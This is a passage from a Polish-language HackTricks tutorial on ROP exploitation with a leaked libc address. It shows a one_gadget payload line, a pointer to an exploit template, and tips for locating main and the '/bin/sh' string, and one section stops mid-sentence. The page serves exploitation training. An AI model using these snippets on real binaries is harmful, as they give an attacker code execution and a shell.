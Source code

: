 ![](<../../../../../images/image (615).png>)
```python
ONE_GADGET = libc.address + 0x4526a
rop2 = base + p64(ONE_GADGET) + "\x00"*100
```
## PLIK EKSPLOATACYJNY

Możesz znaleźć szablon do wykorzystania tej luki tutaj:

{{#ref}}
rop-leaking-libc-template.md
{{#endref}}

## Typowe problemy

### MAIN_PLT = elf.symbols\['main'] nie znaleziono

Jeśli symbol "main" nie istnieje. Wtedy możesz znaleźć, gdzie znajduje się główny kod:
```python
objdump -d vuln_binary | grep "\.text"
Disassembly of section .text:
0000000000401080 <.text>:
```
i ustaw adres ręcznie:
```python
MAIN_PLT = 0x401080
```
### Puts nie znaleziono

Jeśli binarka nie używa Puts, powinieneś sprawdzić, czy używa

### `sh: 1: %s%s%s%s%s%s%s%s: nie znaleziono`

Jeśli znajdziesz ten **błąd** po stworzeniu **wszystkich** exploitów: `sh: 1: %s%s%s%s%s%s%s%s: nie znaleziono`

Spróbuj **odjąć 64 bajty od adresu "/bin/sh"**:
```python
BINSH = next(libc.search("/bin/sh")) - 64
```
{{#include ../../../../../banners/hacktricks-training.md}}
